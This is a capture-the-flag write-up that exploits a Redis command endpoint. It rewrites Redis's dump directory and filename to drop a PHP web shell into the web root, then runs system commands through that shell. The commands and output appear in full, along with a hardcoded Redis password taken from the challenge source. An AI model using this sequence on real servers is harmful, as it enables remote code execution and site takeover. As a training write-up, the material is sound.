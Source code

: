 # Redis
We need your help!!

The server stopped working, all that's left is the maintenance port.

To access it, run:

curl http://localhost/maintenance.php

We're pretty sure the bug is in the index page. Can you some

![Access](A-Redis-access.png)

## Solution
The redis console in the kitchen has a vulnerability that allows to dump the contents of the databse to a file in the file system. To simplify the execution of payloads we can build a helper function as follows:
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```

This way we simply send the commands we want redis to execute with parameters separated by commas, to exploit the vulnerability we have to configure the database backup directory to the web directory and the database backup file to a `.php` file, save the database to a file and then call the new file from the web server to execute our code.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,1.php
cmd set,2,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Findex%2Ephp%22%29%3B%20%3F%3E
cmd set,3,%3C%3Fphp%20readfile%28%22%2Fvar%2Fwww%2Fhtml%2Frce%2Ephp%22%29%3B%20%3F%3E
Running: redis-cli --raw -a '<password censored>' 'set' '3' '<?php readfile("/var/www/html/maintenance.php"); ?>'
OK
cmd save
Running: redis-cli --raw -a '<password censored>' 'save'
OK
```

The php file will contain some REDIS database headers but those do not stop PHP from executing the rest of the code
```
curl localhost/1.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�Km�_used-mem�(
 aof-preamble��� �-<?php
# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
�3<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
    die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncurl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cmd=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
  die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
  die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
```

## Full RCE
We can achive upload a simple RCE php with the following sequence.
1. Load our helper function to simplify the exploitation
```
function cmd {
  curl "localhost/maintenance.php?cmd=$1"
  }
```
2. Flush the database to avoid undesired content, configure redis to store out databse content into a php file and save the database.
```
cmd flushall
cmd config,set,dir,/var/www/html
cmd config,set,dbfilename,rce.php
cmd 'set,backup1,%3C?php%20system($_GET%5B%22cmd%22%5D);%20?%3E'
cmd save
```
3. Call our file using `curl` to execute whatever command we want.
```
curl localhost/rce.php?cmd=ls --output -
```
Spaces have to be replaced with `+` or `%20` to succeed.
```
curl localhost/rce.php?cmd=ls%20-al --output -
```

![Solution](A-Redis-solution.png)